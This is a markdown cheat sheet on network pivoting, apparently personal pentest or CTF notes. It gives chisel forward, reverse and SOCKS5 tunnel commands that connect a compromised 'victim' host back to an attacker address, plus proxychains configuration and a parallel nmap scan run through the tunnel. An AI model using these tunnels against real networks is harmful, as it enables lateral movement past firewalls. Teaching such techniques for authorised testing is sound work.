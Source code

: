 # Pivoting 

## Readme

https://cheatsheet.haax.fr/network/pivot_techniques/
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

##  Proxies

### Forward proxy

some service is listening at victim and connection is incomming from atacker 


### static  forwarding


 <local-interface>:<local-port>:<remote-host>:<remote-port>

  which does  port forwarding, sharing 
  
   
clients <local-interface>:<local-port>
on remote server's <remote-host>:<remote-port>

Set up new server (this time non socks) on attacker

./chisel server --port 9902

Activate client on victims host

./chisel client 10.10.14.xxx:9902 192.168.1.15:8888:127.0.0.1:443 

So now attacker can access victims port external 8888 on it localhost port 443

### Reverse proxy

some service is listening at attacker AND connection is incomming from the victim outside firewall



#### static reverse

Attacker (1.1.1.1:8000) --------> Victim Pivot (client forwards input from attacker to next victim ) --------> Next Victim (3.3.3.4)

./chisel server -p 8000 --reverse on local 
./chisel client 1.1.1.1:8000 R:80:3.3.3.4:80 on the target. 

This will open a listener on port 80 on my Kali box, and any connections to that port will be forwarded to the target, which will pass them to port 80 on 3.3.3.4.

#### Dynamic reverse forwarding

* In this scenario all ports from the victim pivot point aer redirected to attacker so attacker can access Next Victim, which
would be othervise not visible for his network adapter

./chisel server -p 3333 --reverse --socks5

./chisel_lin client 172.16.40.5:3333 R:7777:socks

sudo vim /etc/proxychains4.conf

socks5 127.0.0.1 3333

proxychains nmap -F 10.185.10.0/24




## scanning with nmap

* run for getting open ports
`seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n`

* remove bad lines and save to log file
`grep '/open/' 10.42.42.2 | uniq > openports.log`

* then scan each port separately

